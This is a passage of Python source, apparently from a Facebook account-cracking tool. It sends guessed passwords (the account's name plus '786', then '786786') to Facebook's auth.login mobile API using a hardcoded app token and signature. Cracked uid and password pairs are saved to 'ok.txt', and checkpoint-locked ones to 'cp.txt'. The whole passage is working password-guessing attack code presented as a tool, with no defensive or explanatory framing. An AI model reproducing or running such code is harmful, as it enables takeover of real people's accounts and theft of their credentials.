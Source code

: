 		                            pass4=name+"786"

		                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		                            d=json.loads(q)

		                            if 'www.facebook.com' in d['error_msg']:

		                                print("\x1b[1;93m[SAM-CP] "+uid+" | "+pass4)

		                                cp=open("cp.txt","a")

		                                cp.write(uid+" | "+pass4+"\n")

		                                cp.close()

		                                cps.append(uid)

		                            else:

		                                if 'access_token' in d:

		                                    print("\x1b[1;97m[SAM-OK] "+uid+" | "+pass4+"\x1b[1;0m")

		                                    ok=open("ok.txt","a")

		                                    ok.write(uid+" | "+pass4+"\n")

		                                    ok.close()

		                                    oks.append(uid)

		                                else:

		                                    pass5="786786"

		                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		                                    d=json.loads(q)

		                                    if 'www.facebook.com' in d['error_msg']:

		                                        print("\x1b[1;93m[SAM-CP] "+uid+" | "+pass5)

		                                        cp=open("cp.txt","a")

		                                        cp.write(uid+" | "+pass5+"\n")

		                                        cp.close()

		                                        cps.append(uid)

		                                    else:

		                                        if 'access_token' in d:

		                                            print("\x1b[1;97m[SAM-OK] "+uid+" | "+pass5+"\x1b[1;0m")
